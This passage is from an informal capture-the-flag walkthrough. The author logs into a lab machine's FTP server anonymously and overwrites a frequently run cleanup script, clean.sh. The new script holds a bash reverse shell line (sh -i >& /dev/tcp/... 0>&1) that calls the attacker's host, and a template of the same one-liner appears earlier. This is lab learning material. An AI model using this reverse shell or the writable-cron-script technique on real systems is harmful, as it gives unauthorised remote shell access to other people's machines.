 Okay. Nothing in here specifically, but the existence of logs tells me that it is being run quite frequently. This means ... its revshell time :D

`sh -i >& /dev/tcp/YO_IP/1337 0>&1`

Since we have all the permissions, its ezpzlmnsqz. Lesgoo

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.14.90
Connected to 10.10.14.90.
220 NamelessOne's FTP Server!
Name (10.10.14.90:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
383 bytes sent in 0.00 secs (4.6235 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          383 May 07 10:50 clean.sh
-rw-rw-r--    1 1000     1000         2623 May 07 10:50 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

where the edited script looks like so,
```
#!/bin/bash

# hehehehehe yeaaa boiiii
sh -i >& /dev/tcp/10.8.150.214/1337 0>&1

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
